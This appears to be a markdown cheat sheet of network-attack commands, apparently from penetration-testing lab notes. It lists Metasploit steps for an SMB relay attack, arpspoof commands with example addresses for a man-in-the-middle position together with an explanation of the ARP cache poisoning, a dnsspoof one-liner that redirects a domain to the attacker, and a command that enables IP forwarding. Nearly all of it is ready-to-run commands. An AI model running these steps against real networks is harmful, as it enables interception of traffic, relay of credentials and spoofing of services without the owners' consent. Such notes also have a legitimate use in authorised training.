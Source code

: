 ## MSFconsole for smb relay attack
```
search smb_relay
use 0
set SRVHOST $attacking_machine_ip
set LHOST $attacking_machine_ip
set SMBHOST $file_server_ip
exploit
```

## Arpspoof
### Spoofing command 
- Spoof $first_ip to convince $second_ip:$attacking_machine_mac
```
arpspoof -i eth1 -t $first_ip $second_ip
```
```
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
arpspoof -i eth1 -t 172.16.5.5 172.16.5.1

Spoofing Device 1 to Device 2

Attacker’s Machine sends ARP replies to Device 1 (IP 172.16.5.1), falsely claiming that Attacker’s MAC (AA:AA:AA:AA:AA
) is associated with IP 172.16.5.5.
Device 1 updates its ARP cache with this incorrect mapping:

IP: 172.16.5.5 -> MAC: AA:AA:AA:AA:AA:AA

Spoofing Device 2 to Device 1

Attacker’s Machine also sends ARP replies to Device 2 (IP 172.16.5.5), falsely claiming that Attacker’s MAC (AA:AA:AA:AA:AA
) is associated with IP 172.16.5.1.
Device 2 updates its ARP cache with this incorrect mapping:

IP: 172.16.5.1 -> MAC: AA:AA:AA:AA:AA:AA
```

## Dnsspoof
```
echo "$attacking_machine_ip *.sportsfoo.com" > dns;dnsspoof -i eth1 -f dns
```
## ip_forward
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```



